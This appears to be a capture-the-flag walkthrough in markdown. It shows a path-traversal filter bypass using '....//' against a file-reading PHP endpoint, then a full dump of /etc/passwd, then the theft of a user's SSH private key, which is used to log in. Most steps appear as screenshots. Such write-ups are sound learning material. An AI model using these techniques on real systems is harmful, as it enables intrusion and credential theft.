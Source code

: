 ![dirRead1](images/dirRead1.PNG)

- Unable to traverse back directories after the first, likely there is a fileter blocking us.
![dirRead2.PNG](images/dirRead2.PNG)

- We can try escaping or use `....//`.
and it worked

![dirRead3.PNG](images/dirRead3.PNG)


- Then read `etc/passwd` using `fileRead.php` to find out the `users` on the machine. use the same technique as above


- `/etc/passwd`

```bash
{"file":"root:x:0:0:root:\/root:\/bin\/ash\nbin:x:1:1:bin:\/bin:\/sbin\/nologin\ndaemon:x:2:2:daemon:\/sbin:\/sbin\/nologin\nadm:x:3:4:adm:\/var\/adm:\/sbin\/nologin\nlp:x:4:7:lp:\/var\/spool\/lpd:\/sbin\/nologin\nsync:x:5:0:sync:\/sbin:\/bin\/sync\nshutdown:x:6:0:shutdown:\/sbin:\/sbin\/shutdown\nhalt:x:7:0:halt:\/sbin:\/sbin\/halt\nmail:x:8:12:mail:\/var\/spool\/mail:\/sbin\/nologin\nnews:x:9:13:news:\/usr\/lib\/news:\/sbin\/nologin\nuucp:x:10:14:uucp:\/var\/spool\/uucppublic:\/sbin\/nologin\noperator:x:11:0:operator:\/root:\/bin\/sh\nman:x:13:15:man:\/usr\/man:\/sbin\/nologin\npostmaster:x:14:12:postmaster:\/var\/spool\/mail:\/sbin\/nologin\ncron:x:16:16:cron:\/var\/spool\/cron:\/sbin\/nologin\nftp:x:21:21::\/var\/lib\/ftp:\/sbin\/nologin\nsshd:x:22:22:sshd:\/dev\/null:\/sbin\/nologin\nat:x:25:25:at:\/var\/spool\/cron\/atjobs:\/sbin\/nologin\nsquid:x:31:31:Squid:\/var\/cache\/squid:\/sbin\/nologin\nxfs:x:33:33:X Font Server:\/etc\/X11\/fs:\/sbin\/nologin\ngames:x:35:35:games:\/usr\/games:\/sbin\/nologin\npostgres:x:70:70::\/var\/lib\/postgresql:\/bin\/sh\ncyrus:x:85:12::\/usr\/cyrus:\/sbin\/nologin\nvpopmail:x:89:89::\/var\/vpopmail:\/sbin\/nologin\nntp:x:123:123:NTP:\/var\/empty:\/sbin\/nologin\nsmmsp:x:209:209:smmsp:\/var\/spool\/mqueue:\/sbin\/nologin\nguest:x:405:100:guest:\/dev\/null:\/sbin\/nologin\nnobody:x:65534:65534:nobody:\/home\/nobody:\/bin\/sh\nnginx:x:100:101:nginx:\/var\/lib\/nginx:\/sbin\/nologin\n"}
```

- since we have user `nobody` we can look into his folder for files

![dirRead4_user_nobody.PNG](images/dirRead4_user_nobody.PNG)

![nobody_home](images/nobody_home.PNG)

- We can see `.ssh` folder, use `fileRead.php` to read the contents

![ssh_monitor](images/ssh_monitor.PNG)

![ssh_key](images/ssh_key.PNG)

- Now copy the key and log in as user `nobody`

> Make sure to formate the key

![formatted_ssh_key](images/formatted_ssh_key.PNG)

__Result__
